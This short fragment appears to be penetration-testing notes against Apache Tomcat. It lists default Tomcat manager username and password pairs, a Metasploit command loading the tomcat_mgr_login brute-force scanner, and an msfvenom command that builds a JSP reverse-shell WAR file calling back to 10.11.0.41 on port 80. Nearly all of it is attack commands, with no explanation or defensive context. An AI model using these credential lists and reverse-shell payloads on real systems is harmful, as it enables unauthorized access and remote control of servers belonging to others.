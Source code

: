 admin:admin
tomcat:tomcat
admin:NOTHING
admin:s3cr3t
tomcat:s3cr3t
admin:tomcat
msf> use auxiliary/scanner/http/tomcat_mgr_login

msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.41 LPORT=80 -f war -o revshell.war